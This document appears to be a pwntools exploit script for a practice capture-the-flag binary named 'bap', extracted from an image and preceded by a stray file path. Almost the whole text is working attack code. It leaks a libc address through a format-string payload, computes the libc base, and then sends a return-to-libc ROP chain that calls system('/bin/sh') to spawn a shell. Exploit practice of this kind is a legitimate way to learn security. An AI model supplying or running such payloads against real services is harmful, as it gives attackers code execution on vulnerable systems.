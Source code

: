     def GDB(): gdb.attach(p, gdbscript='''

    b*main+69
    b*main+81
    c
    ''') if not args.REMOTE else None

    p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
    set_p(p)
    if args.GDB: GDB(); input()

    # ===========================================================
    #                          EXPLOIT
    # ===========================================================

    '''
    [*] '/home/alter/pwn/Practice/bap/bap'
        Arch:       amd64-64-little
        RELRO:      Full RELRO
        Stack:      No canary found
        NX:         NX enabled
        PIE:        No PIE (0x400000)
        SHSTK:      Enabled
        IBT:        Enabled
        Stripped:   No
    '''
    ret = 0x000000000040101a
    pop_rdi = 0x000000000002a3e5

    pl = b'%11$s' + b'A' * 19
    pl += p64(ret) + p64(exe.sym.main) + p64(exe.got.gets)
    sla(b': ',pl)

    leak = u64(ru(b'A')[:-1] + b'\0\0')
    libc.address = leak - libc.sym.gets
    info('Leak: ' + hex(leak))
    info('Libc base: ' + hex(libc.address))

    pl = b'B'*24
    pl += p64(ret)
    pl += p64(libc.address + pop_rdi) + p64(next(libc.search(b'/bin/sh')))
    pl += p64(libc.sym.system)
    sla(b': ',pl)

    interactive()

    ```

